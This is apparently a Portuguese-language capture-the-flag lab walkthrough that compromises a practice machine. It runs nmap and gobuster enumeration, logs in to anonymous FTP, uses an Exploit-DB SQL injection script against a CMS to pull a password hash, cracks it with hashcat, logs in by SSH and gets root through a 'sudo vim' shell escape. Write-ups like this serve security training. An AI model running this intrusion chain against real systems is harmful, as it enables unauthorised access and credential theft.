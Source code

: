 # TASKs:

1.  
2.  
3.  

---

```
export IP=10.10.169.195
```

---

## 1) Enumeração com Nmap
```bash
nmap -A 10.10.169.195
```
**Resultados:**
```
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

---

## 2) Acesso FTP
```bash
ftp 10.10.169.195
```
> **Nome de utilizador:** anonymous

```bash
ftp> ls
ftp> cd pub
ftp> mget *
ftp> bye
```
**Ficheiro Encontrado:** `ForMitch.txt` (informa que a password é fraca)

---

## 3) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultado:**
```
http://10.10.169.195/simple (Tipo de Site: CMS)
```

---

## 4) Exploração - Vulnerabilidade SQLi no CMS
> **ExploitDatabase:** Identificado vuln no CMS (SQLi -> ficheiro Python a descarregar para exe)
```bash
python2 46635.py -u http://10.10.169.195/simple
```
**Credenciais Obtidas:**
```
Salt for Password: 1dac092e9fa6bb2
Username: mitch
Email: admin@admin.com
Password Hash: 0c01f4468bd75d7a84c7eb73846e8d96
```

---

## 5) Quebra de Hash com Hashcat
```bash
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac092e9fa6bb2 /usr/share/wordlist/rockyou.txt
```
**Senha Encontrada:** `secret`

---

## 6) Acesso via SSH
```bash
ssh mitch@10.10.169.195 -p 2222
```
> **Password:** `secret`

```bash
$ whoami
$ bash
$ ls
$ cat user.txt
```
**Mensagem:**
```
G00d j0b, keep up!
```

---

## 7) Elevação de Privilégios
```bash
ls /home
```
**Usuário Identificado:** `sunbath`

```bash
sudo -l
```
**Vulnerabilidade Identificada:** `vim` (leverage to spawn a privileged shell)

> Identificar um bypass para o Vim -> **GTFOBins** (vim -> sudo)
```bash
sudo vim -c ':!/bin/sh'
```
```bash
# whoami
```
**Resultado:** `root`

```bash
# cd /root
# ls
# cat root.txt
```
**Mensagem Final:**
```
w3ll d0ne. You made it!
```

